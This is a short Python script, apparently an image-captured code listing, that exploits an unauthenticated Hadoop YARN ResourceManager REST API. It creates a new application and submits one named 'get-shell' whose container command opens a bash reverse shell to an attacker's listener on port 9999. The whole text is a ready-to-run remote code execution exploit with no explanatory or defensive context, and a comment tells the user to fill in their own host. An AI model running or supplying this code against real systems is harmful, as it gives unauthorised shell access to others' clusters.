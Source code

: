 ```python
#!/usr/bin/env python

import requests

target = 'http://192.168.18.129:8088/'
lhost = '192.168.18.138' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

